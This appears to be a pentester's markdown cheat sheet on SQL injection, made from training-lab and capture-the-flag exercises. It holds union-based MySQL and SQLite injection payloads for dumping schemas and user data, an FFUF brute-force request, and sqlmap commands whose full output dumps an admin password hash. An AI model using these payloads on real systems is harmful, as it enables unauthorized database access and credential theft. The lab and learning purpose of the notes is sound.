


### UNION BASED SQLI

info gathering

```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump

```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

column dump

```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump

```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```

or

```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection

#### DVWA Union based sqli

- [DVWA Easy Union based sqli](./DVWA_Easy_Manualy_Dump.md)
- [DVWA Medium Union based sqli](./DVWA_Medium_Manualy_Dump.md)

### Username Brutforce with FFUF

simple request


save req to req.txt

```
POST / HTTP/1.1
Host: 10.10.128.5
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.128.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.128.5/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=FUZZ'AND+1=1+--+-&password=a
```

run below FFUF command

```
ffuf -request req.txt -u http://10.10.128.5/ -w ~/Tools/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
```


NOTE:- we might need to pass -u with url to use http or https

python script :-
https://github.com/BhattJayD/LessonLearned-BruteForce-Script
Tested on https://tryhackme.com/room/lessonlearned

### SQLITE Sql injection

Useful link to follow:-
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://tryhackme.com/room/unstabletwin#

##### 1st step SIMPLE ENUM

```sqlite
username=admin&password=aa'union select 1,sqlite_version() -- -
```

```json
[[1, "3.26.0"]]
```

##### 2nd step TABLE NAME EXTRACTION

```
username=admin&password=aa'union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%' -- -
```

```json
[[1, "users,notes"]]
```

##### 3rd step COLUMN NAME EXTRACTION

```sqlite
username=admin&password=aa'union select 1,sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='notes' limit 3 -- -
```

```sql
[
	[
		1,
		"CREATE TABLE notes ( id INTEGER UNIQUE, user_id INTEGER, note_sql INTEGER, notes TEXT,PRIMARY KEY( id ))"
	]
]
```

##### 4rd step DATA EXTRACTION FROM COLUMN

```sqlite
username=admin&password=aa'union select 1,username from users limit 10 -- -
```

```json
[
  [1, "julias"],
  [1, "linda"],
  [1, "marnie"],
  [1, "mary_ann"],
  [1, "vincent"]
]
```

```sqlite
username=admin&password=aa'union select (group_concat(password)),(group_concat(username)) from users limit 1 -- -
```

```json
[
  [
    "continue...,Red,Orange,Green,Yellow ",
    "mary_ann,julias,vincent,linda,marnie"
  ]
]
```

### Use full sql commands

##### Print in JSON

```sql
select * from table \G;
```

### SQLMAP

##### read from file

```bash
sqlmap -r file.txt
```

##### Ignore Code

When server gives specific status code and error out use below command

```
sqlmap -r file.txt --ignore-code 401
```

##### Enum with sqlmap

1.  DB enum
2.  Table enum
3.  Columns emum
4.  DB Dump

DB enum

```bash
sqlmap -r KOTP.txt --ignore-code 401 --dbs
```

output

```bash
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7#pip}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:12:21 /2024-06-16/

[21:12:21] [INFO] parsing HTTP request from 'KOTP.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[21:12:23] [INFO] resuming back-end DBMS 'mysql'
[21:12:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=lean' RLIKE (SELECT (CASE WHEN (3877=3877) THEN 0x6c65616e ELSE 0x28 END))-- xQtH&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=lean' OR (SELECT 8938 FROM(SELECT COUNT(*),CONCAT(0x7171787871,(SELECT (ELT(8938=8938,1))),0x717a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nFWi&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lean' AND (SELECT 5609 FROM (SELECT(SLEEP(5)))xhno)-- FGwq&password=test
---
[21:12:23] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:12:23] [INFO] fetching database names
[21:12:24] [INFO] retrieved: 'information_schema'
[21:12:24] [INFO] retrieved: 'test'
[21:12:24] [INFO] retrieved: 'korp_terminal'
available databases [3]:
[*] information_schema
[*] korp_terminal
[*] test

[21:12:24] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 1 times, 500 (Internal Server Error) - 4 times
[21:12:24] [INFO] fetched data logged to text files under '/home/splitunknown/snap/sqlmap/36/.local/share/sqlmap/output/94.237.61.226'
[21:12:24] [WARNING] your sqlmap version is outdated

[*] ending @ 21:12:24 /2024-06-16/


```

Table Enum

```bash
sqlmap -r KOTP.txt --ignore-code 401 -D korp_terminal --tables
```

Output

```bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7#pip}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:12:38 /2024-06-16/

[21:12:38] [INFO] parsing HTTP request from 'KOTP.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[21:12:40] [INFO] resuming back-end DBMS 'mysql'
[21:12:40] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=lean' RLIKE (SELECT (CASE WHEN (3877=3877) THEN 0x6c65616e ELSE 0x28 END))-- xQtH&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=lean' OR (SELECT 8938 FROM(SELECT COUNT(*),CONCAT(0x7171787871,(SELECT (ELT(8938=8938,1))),0x717a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nFWi&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lean' AND (SELECT 5609 FROM (SELECT(SLEEP(5)))xhno)-- FGwq&password=test
---
[21:12:40] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:12:40] [INFO] fetching tables for database: 'korp_terminal'
[21:12:40] [INFO] retrieved: 'users'
Database: korp_terminal
[1 table]
+-------+
| users |
+-------+

[21:12:40] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 1 times, 500 (Internal Server Error) - 2 times
[21:12:40] [INFO] fetched data logged to text files under '/home/splitunknown/snap/sqlmap/36/.local/share/sqlmap/output/94.237.61.226'
[21:12:40] [WARNING] your sqlmap version is outdated

[*] ending @ 21:12:40 /2024-06-16/


```

Columns enum

```bash
sqlmap -r KOTP.txt --ignore-code 401 -D korp_terminal -T users --columns
```

output

```bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7#pip}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:16:13 /2024-06-16/

[21:16:13] [INFO] parsing HTTP request from 'KOTP.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[21:16:16] [INFO] resuming back-end DBMS 'mysql'
[21:16:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=lean' RLIKE (SELECT (CASE WHEN (3877=3877) THEN 0x6c65616e ELSE 0x28 END))-- xQtH&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=lean' OR (SELECT 8938 FROM(SELECT COUNT(*),CONCAT(0x7171787871,(SELECT (ELT(8938=8938,1))),0x717a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nFWi&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lean' AND (SELECT 5609 FROM (SELECT(SLEEP(5)))xhno)-- FGwq&password=test
---
[21:16:16] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:16:16] [INFO] fetching columns for table 'users' in database 'korp_terminal'
[21:16:16] [INFO] retrieved: 'id'
[21:16:16] [INFO] retrieved: 'int(11)'
[21:16:17] [INFO] retrieved: 'username'
[21:16:17] [INFO] retrieved: 'varchar(255)'
[21:16:17] [INFO] retrieved: 'password'
[21:16:17] [INFO] retrieved: 'varchar(255)'
Database: korp_terminal
Table: users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+

[21:16:17] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 1 times, 500 (Internal Server Error) - 7 times
[21:16:17] [INFO] fetched data logged to text files under '/home/splitunknown/snap/sqlmap/36/.local/share/sqlmap/output/94.237.61.226'
[21:16:17] [WARNING] your sqlmap version is outdated

[*] ending @ 21:16:17 /2024-06-16/
```

Dump the DB

```bash
sqlmap -r KOTP.txt --ignore-code 401 -D korp_terminal -T users --dump
```

output

```bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7#pip}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:17:18 /2024-06-16/

[21:17:18] [INFO] parsing HTTP request from 'KOTP.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[21:17:20] [INFO] resuming back-end DBMS 'mysql'
[21:17:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=lean' RLIKE (SELECT (CASE WHEN (3877=3877) THEN 0x6c65616e ELSE 0x28 END))-- xQtH&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=lean' OR (SELECT 8938 FROM(SELECT COUNT(*),CONCAT(0x7171787871,(SELECT (ELT(8938=8938,1))),0x717a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nFWi&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lean' AND (SELECT 5609 FROM (SELECT(SLEEP(5)))xhno)-- FGwq&password=test
---
[21:17:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:17:20] [INFO] fetching columns for table 'users' in database 'korp_terminal'
[21:17:20] [INFO] resumed: 'id'
[21:17:20] [INFO] resumed: 'int(11)'
[21:17:20] [INFO] resumed: 'username'
[21:17:20] [INFO] resumed: 'varchar(255)'
[21:17:20] [INFO] resumed: 'password'
[21:17:20] [INFO] resumed: 'varchar(255)'
[21:17:20] [INFO] fetching entries for table 'users' in database 'korp_terminal'
[21:17:20] [INFO] retrieved: '1'
[21:17:21] [INFO] retrieved: '$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.'
[21:17:21] [INFO] retrieved: 'admin'
Database: korp_terminal
Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+

[21:17:21] [INFO] table 'korp_terminal.users' dumped to CSV file '/home/splitunknown/snap/sqlmap/36/.local/share/sqlmap/output/94.237.61.226/dump/korp_terminal/users.csv'
[21:17:21] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 1 times, 500 (Internal Server Error) - 5 times
[21:17:21] [INFO] fetched data logged to text files under '/home/splitunknown/snap/sqlmap/36/.local/share/sqlmap/output/94.237.61.226'
[21:17:21] [WARNING] your sqlmap version is outdated

[*] ending @ 21:17:21 /2024-06-16/


```
